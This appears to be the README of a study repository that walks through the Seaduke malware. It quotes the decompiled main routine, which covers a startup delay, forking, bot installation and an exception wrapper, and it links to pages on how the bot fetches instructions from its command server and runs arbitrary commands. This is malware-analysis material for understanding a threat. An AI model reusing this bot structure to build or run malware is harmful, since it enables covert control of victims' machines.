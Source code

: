 # what is this?
an anatomy of [seaduke](https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2211)

# who does what now?
```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run = True
    if v_sys_platform!='win32':
        forkmeiamfamous()
    me = BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me = None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me = None
        time_sleep(1)
        sys_exit(0)
```
* [fork me](https://github.com/mynameisvinn/Seaduke/blob/master/fork.md)
* [installing botKlass](https://github.com/mynameisvinn/Seaduke/blob/master/install.md)
* [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* [bot settings](https://github.com/mynameisvinn/Seaduke/blob/master/bot_settings.md), its initial attributes
* [how does seaduke fetch instructions from the mothership?](https://github.com/mynameisvinn/Seaduke/blob/master/fetch.md)
* [decode](https://github.com/mynameisvinn/Seaduke/blob/master/decode.md)
* [executing tasks with `threadStuffKlass`](https://github.com/mynameisvinn/Seaduke/blob/master/execution.md)
* executing [arbitrary commands](https://github.com/mynameisvinn/Seaduke/blob/master/commands.md)